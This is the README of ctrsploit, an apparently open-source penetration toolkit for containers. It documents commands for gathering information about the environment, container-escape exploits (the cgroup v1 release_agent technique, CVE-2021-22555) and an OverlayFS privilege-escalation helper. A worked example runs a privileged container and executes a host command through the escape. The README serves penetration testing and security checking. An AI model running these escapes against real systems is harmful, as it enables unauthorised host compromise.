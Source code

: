 # ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

ctrsploit [kənˈteɪnər splɔɪt]

## Why ctrsploit

see [here](https://github.com/ctrsploit/ctrsploit/discussions/11)

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## Self Build

### Build in Container

```bash
make binary && ls -lah bin/release
```

### Build in Local

```
make build-ctrsploit
```

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### gather information

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   auto              auto
   where, w          detect whether you are in the container, and which type of the container
   graphdriver, g    detect graphdriver type and extend information
   cgroups, c        gather cgroup information
   capability, cap   show the capability of pid 1 and current process
   seccomp, s        show the seccomp info
   apparmor, a       show the apparmor info
   selinux, se       show the selinux info
   fdisk, f          like linux command fdisk or lsblk // TODO
   kernel, k         collect kernel environment information
   namespace, n, ns  check namespace is host ns
   help, h           Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

where

```
root@ctr:/# ./ctrsploit  env  w

===========Container===========
[Y]  Is in Container

===========Docker===========
[Y]  .dockerenv exists
[N]  rootfs contains 'docker'   
[N]  cgroups contains 'docker'
[Y]  the mount source of /etc/hosts contains 'docker'   
[Y]  hostname match regex ^[0-9a-f]12$
---
[Y]  => Is in docker

===========k8s===========
[N]  /var/run/secrets/kubernetes.io exists
[N]  hostname match k8s pattern
[N]  the mount source of /etc/hosts contains 'pods'
[N]  contains 'kubepods'
---
[N]  => is in k8s
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### check security

Just execute `ctrsploit checksec` or standalone binary file `checksec` in the container.

```
[root@ctr ~]# /checksec_linux_amd64 
===========Seccomp=========
kernel supported: ✔
seccomp enabled in current container: ✘

===========Apparmor=========
Kernel Supported: ✘
Container Enabled: ✘

===========Cgroups=========
is cgroupv1: ✔
is cgroupv2: ✘

------sub systems-------
["perf_event" "memory" "net_cls" "cpuset" "blkio" "hugetlb" "files" "cpu" "cpuacct" "pids" "rdma" "freezer" "devices" "net_prio"]

--------top level subsystem----------
["rdma"
```

## Details

### env

| command                          | alias | description                                                              |
|----------------------------------|-------|--------------------------------------------------------------------------|
| [auto](./env/auto)               |       | auto gather environment information                                      |
| [where](./env/where)             | w     | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver) | g     | detect graphdriver type and extend information                           |
| [cgroups](./env/cgroups)         | c     | gather cgroup information                                                |
| [capability](./env/capability)   | cap   | show the capability of pid 1 and current process                         |
| [seccomp](./env/seccomp)         | s     | show the seccomp info                                                    |
| [apparmor](./env/apparmor)       | a     | show the apparmor info                                                   |
| [namespace](./env/namespace)     | n, ns | check namespace is host ns                                               |

### exploit

| exploit                                                                                  | alias | description                                                                  |
|------------------------------------------------------------------------------------------|-------|------------------------------------------------------------------------------|
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent)                               | ra    | escape tech by using the notify_on_release of cgroup v1                      |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3   | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04)                       | 22555 | escape tech by using the CVE-2021-22555 (ubuntu18.04)                        |

### helper

| helper                                  | alias                    | description                    |
|-----------------------------------------|--------------------------|--------------------------------|
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS Local Privesc |

### checksec

Just execute `ctrsploit checksec` or standalone binary file `checksec`.